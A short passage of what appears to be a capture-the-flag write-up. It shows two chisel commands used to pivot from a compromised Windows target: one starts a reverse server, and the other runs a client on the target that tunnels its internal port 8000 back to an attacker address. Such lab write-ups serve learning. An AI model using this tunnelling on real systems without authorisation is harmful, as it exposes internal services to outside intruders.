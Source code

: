## Enumeration

![screenshot](/assets/images/flight21.png)

### Port Forwarding within the target 

Port forwarding port 8000 using `chisel`

```sh
chisel server --reverse -p 8001
```

And running the client on the target machine

```sh
.\chisel.exe client 10.10.14.28:8001 R:8000:127.0.0.1:8000
```
